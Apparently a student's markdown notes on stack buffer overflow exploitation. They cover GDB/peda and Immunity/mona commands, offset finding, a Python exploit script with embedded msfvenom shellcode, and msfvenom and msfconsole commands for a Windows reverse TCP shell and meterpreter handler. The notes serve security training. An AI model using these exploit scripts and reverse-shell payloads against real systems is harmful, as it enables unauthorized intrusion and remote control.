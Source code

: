 
# Buffer Overflow Common Terms
* Heap
* Stack
* Registers
* Instruction Pointer
* Stack Pointer
* Base Pointer
* Function
* Shellcode
# Buffer Overflow Defenses
* Non executable (NX) Stack
* Address Space Layout Randomization (ASLR)
* Data Execution Prevention (DEP)
* Stack Canaries
* Position Independent Excutable (PIE)
# GDB Uses
* installation pf peda plugin
    git clone https://github.com/longld/peda.git ~/peda
    echo "source ~/peda/peda.py" >> ~/.gdbinit
### Common Commands
```
disass <FUNCTION>     # Disassemble portion of the program
info <...>    # Supply info for specific stack areas
x/256c $<REGISTER>    # Read characters from specific register
break <address>    # Establish a break point
run <<<$(echo "asdfghjlklk")    # Goes into standard in of program. It makes it take an arguement before running the program
info functions    # Lists all the functions
pdisass main    # Lists the main function. (Can do this to any function)
info proc map    # Gets a map of the process
```
# Demo Linux
* [Buffer-Overflow-Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)
  - Look for "EIP" It should have a specific value from the characters you overflowed it with, copy the hex value determine the overflow amount
* To see the size of the stack, do "info proc map" and note the line with [heap], the line below that has a start addr (this is the start of the stack). Note the end addr of the line that has [stack] in it.
* find /b command:
  - `0xff` is jmp
  - `0xe4` is ESP
* `\x90` is NOP
```
run ./func <<<$(echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa")  # what thi does id run func and uses command substitution starting at the gators to input bad strings
   
# Find out the overflow value
# Exit
# Enter a fresh gdb session without peda
* env - gdb ./func    # This allows you to do that ^
* pdisass getuserinput # shows code for a function called getuserinput
* shell takes you to your lin ops lines type exit to go back to gdb
* type run then do the overflow of characters 
* show env    # Lists variables
## run <<<$(./buff.py)   # redirects the input to run the file we created that will spam "A" however many times we want
## copy hex value in the EIP after the 0x

```
 #!/usr/bin/env python 
   
   buffer = "A" * 62
   eip = "BBBB"
   
   print(buffer+eip)
```
## the code aboce does a buffer overflow and replaces the EIP to check for validity 
## * unset env <variable>    # This unsets a variable
* info proc map    # Gets a map of the process after the crash
```
crash:
tarting program: /home/student/func 
Enter a string: 
ddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd

Program received signal SIGSEGV, Segmentation fault.
0x64646464 in ?? ()
```            1            2       3     4
* find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4    # find /b <starting location of stack>, <ending location of the stack>, <jmp>, <esp>
# Take first 4 and make them little endian
```
### Flipping bytes from big to little endian
```
#0xf7de3b59 -> 0xf7 de 3b 59 -> "\x59\x3b\xde\xf7"
#0xf7f588ab -> 0xf7 f5 88 ab -> "\xab\x88\xf5\xf7"
#0xf7f645fb -> 0xf7 f6 45 fb -> "\xfb\x45\xf6\xf7"
#0xf7f6460f -> 0xf7 f6 46 0f -> "\x0f\x46\xf6\xf7"
```
### MSFVENOM Command
* We are tellig it do create a payload that executes msf
* Then we are telling it that its going to execute the whoami command (1)
* Then then tell it to not use the NULL Byte (2)
* Finally we tell it to format it to python (3)
```                              1           2         3
msfvenom -p /linux/x86/exec CMD=whoami -b '\x00' -f python    # Creates payload
msfvenom --list payloads    # Lists all the payloads
```
## shell code we push onto the program 
buf =  b""
buf += b"\xba\xf9\xfc\xc9\x23\xdd\xc3\xd9\x74\x24\xf4\x58"
buf += b"\x31\xc9\xb1\x0b\x83\xe8\xfc\x31\x50\x10\x03\x50"
buf += b"\x10\x1b\x09\xa3\x28\x83\x6b\x66\x49\x5b\xa1\xe4"
buf += b"\x1c\x7c\xd1\xc5\x6d\xea\x22\x72\xbd\x88\x4b\xec"
buf += b"\x48\xaf\xde\x18\x4d\x2f\xdf\xd8\x25\x47\xb0\xb9"
buf += b"\xa4\xfe\x4e\x6d\x64\x89\xae\x5c\x0a"

## how to generate shell code via msfconsole
payload/linux/x86/exec
show options 
set cmd whoami
    then show options to verify

## your script to get the code to work should be this (shell code is buf and is variable)
!/usr/bin/env python 
   
buffer = "A" * 62
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
buf =  b""
buf += b"\xbb\x35\x5d\x8c\xf4\xd9\xed\xd9\x74\x24\xf4\x5a"
buf += b"\x2b\xc9\xb1\x0b\x31\x5a\x14\x83\xea\xfc\x03\x5a"
buf += b"\x10\xd7\xa8\xe6\xff\x4f\xca\xa5\x99\x07\xc1\x2a"
buf += b"\xef\x30\x71\x82\x9c\xd6\x82\xb4\x4d\x44\xea\x2a"
buf += b"\x1b\x6b\xbe\x5a\x1c\x6b\x3f\x9b\x54\x03\x50\xfa"
buf += b"\xf7\xba\xae\xab\x54\xb5\x4e\x9e\xdb"
print(buffer+eip+nop+buf)

then run on the gdb-peda with: run <<<$(./buff.py)


once the script and stuff works for a windows machine all you need to change on the script is the EIP






```
# Demo Windows
### The Setup
* Run strings.exe on the executable
* Look for vulnerable variables
* Go to [Buffer-Overflow-Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) and generate the string that will narrow the buffer offset
* Make the python [script](scripts.md)
* Make sure the program crashes and the EIP returns with the value you set
### Immunity Debugger
```
!mona modules    # This looks for vulnerable variables
!mona jmp -r esp -m "essfunc.dll"    # Looks through the variable for jmp and esp
```
### MSFVENOM COMMAND (lhost='LinOPS IP' lport='RHP')
```
msfvenom -p windows/shell/reverse_tcp lhost=10.50.30.231 lport=1234 -b "\x00" -f python
```
### MSFCONSOLE
```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport <PORT SET IN MSFVENOM>
run
```

